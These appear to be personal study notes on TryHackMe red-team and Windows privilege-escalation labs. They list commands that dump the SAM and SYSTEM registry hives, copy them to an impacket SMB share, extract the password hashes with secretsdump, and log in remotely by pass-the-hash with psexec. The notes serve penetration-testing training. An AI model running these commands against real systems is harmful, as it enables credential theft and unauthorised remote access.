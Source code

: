 # XXX

**https://tryhackme.com/room/redteamfundamentals** (done)

* simulate enough [TTPs](https://csrc.nist.gov/glossary/term/Tactics_Techniques_and_Procedures) for the blue team to learn to react
* [redteam.guide](https://redteam.guide/)
* Varonis Cyber Kill Chain 
* Active Directory Attack Cycle 
* MITRE ATT&CK Framework
* Windows CVE: PrintNightmare

**https://tryhackme.com/room/redteamengagements**

* concrete objectives (identify system misconfigurations) and perimeter/scope (ex: no downtime)

N

* PSexec (allow administrators to run commands on remote Windows systems) 

**https://tryhackme.com/room/windowsprivesc20**

* `whoami /priv`
* https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
* https://github.com/gtworek/Priv2Admin
* `backup the SAM and SYSTEM hashes`
  * `reg save hklm\system C:\XXX\system.hive`
  * `reg save hklm\sam C:\XXX\sam.hive`
* `python3 -m pip install impacket` (not working)
* `sudo git clone https://github.com/fortra/impacket /opt/impacket`
* `python3 -m pip install -r requirements.txt`
* pipx
* `python /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 name /tmp/folderr`
* `net view \\IP`: view shares
* `copy file \\IP\share`
* https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
* [impacket](https://github.com/fortra/impacket/tree/master/examples)
* `pip install -r requirements.txt`/`pip install .`
* `python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`
  * Give hashes
  * Pass the hash: `python3.9 /opt/impacket/examples/psexec.py -hashes usernamehash:sessionhash username@IP`